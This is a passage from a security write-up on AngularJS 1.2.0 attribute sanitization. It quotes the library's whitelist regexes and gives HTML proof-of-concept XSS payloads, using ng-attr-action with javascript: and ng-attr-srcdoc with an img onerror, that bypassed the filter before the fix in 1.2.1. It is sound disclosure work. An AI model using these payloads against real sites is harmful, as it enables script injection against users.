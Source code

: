 ## Protection Bypasses ##

Interestingly, even the attribute-wrappers receive sanitation. Like it's the late nineties all over again:

```
  var hasDirectives = {},
      Suffix = 'Directive',
      COMMENT_DIRECTIVE_REGEXP = /^\s*directive\:\s*([\d\w\-_]+)\s+(.*)$/,
      CLASS_DIRECTIVE_REGEXP = /(([\d\w\-_]+)(?:\:([^;]+))?;?)/,
      aHrefSanitizationWhitelist = /^\s*(https?|ftp|mailto|file):/,
      imgSrcSanitizationWhitelist = /^\s*(https?|ftp|file):|data:image\//;

  // Ref: http://developers.whatwg.org/webappapis.html#event-handler-idl-attributes
  // The assumption is that future DOM event attribute names will begin with
  // 'on' and be composed of only English letters.
  var EVENT_HANDLER_ATTR_REGEXP = /^(on[a-z]*|formaction)$/;
```

This prohibits an attacker from using JavaScript and other critical URL schemes for certain attributes - yet leaves a bunch of important attributes complete out of consideration.

Here's what we **cannot** do any more (DOM errors will be thrown, URLs will be prefixed with the string `unsafe:`):

```
<html ng-app>
<head>
	<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.0-rc.2/angular.min.js"></script>
</head>
<body>
	<a ng-attr-href="{{'javascript:'}}alert(1)">CLICK</a>
	<iframe ng-attr-src="{{'javascript:alert(1)'}}"></iframe>
</body>
```

And here's what we still can do in AngularJS 1.2.0 - bypassing the overall not-so-well-composed blacklist:

```
<html ng-app>
<head>
	<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.0-rc.2/angular.min.js"></script>
</head>
<body>
	<form ng-attr-action="{{'javascript:'}}alert(1)"><button>CLICK</button></form>
	<iframe ng-attr-srcdoc="{{'<img src=x onerror=alert(1)>'}}"></iframe>
</body>
```

AngularJS 1.2.1 got these fixed in November 2013: [#4927](https://github.com/angular/angular.js/issues/4927), [#4933](https://github.com/angular/angular.js/pull/4933). It is not possible to concatenate values and the `srcdoc` attribute has been flagged as insecure and cannot be used any more.
